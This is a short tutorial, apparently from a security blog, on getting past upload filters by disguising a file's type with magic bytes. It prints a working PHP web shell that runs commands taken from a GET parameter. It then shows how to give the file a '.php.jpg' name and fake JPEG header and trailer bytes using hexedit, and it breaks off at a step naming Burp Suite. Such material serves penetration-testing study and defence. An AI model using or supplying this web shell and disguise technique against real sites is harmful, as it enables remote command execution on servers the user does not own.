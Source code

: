 ## **Overview**

Magic Bytes are Basically strings that indicates a file type. You can check out a bunch of them [here](https://en.wikipedia.org/wiki/List_of_file_signatures?ref=danielxblack.ghost.io).



## **Exploitation**


- create a file with `.php.jpg` as the extension 
- Input the following code into the file and save it

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

- In this case since we are uploading a `JPG` or `PNG` file, Files like this usually have one of the following magic numbers: `FFD8 DDE0`, `FFD8 FFDB` or `FFD8 FFE1`
- We can then change the first bytes and the last bytes using **hexedit** - `hexedit shell.php`
	- First bytes will be: `FFD8 FFDB`
	- Last bytes will be: `FFD9` (Always have to be)
	- Ctrl+S - To save

![](https://i.imgur.com/KsVAtWP.png)

- Open up burpsuite 
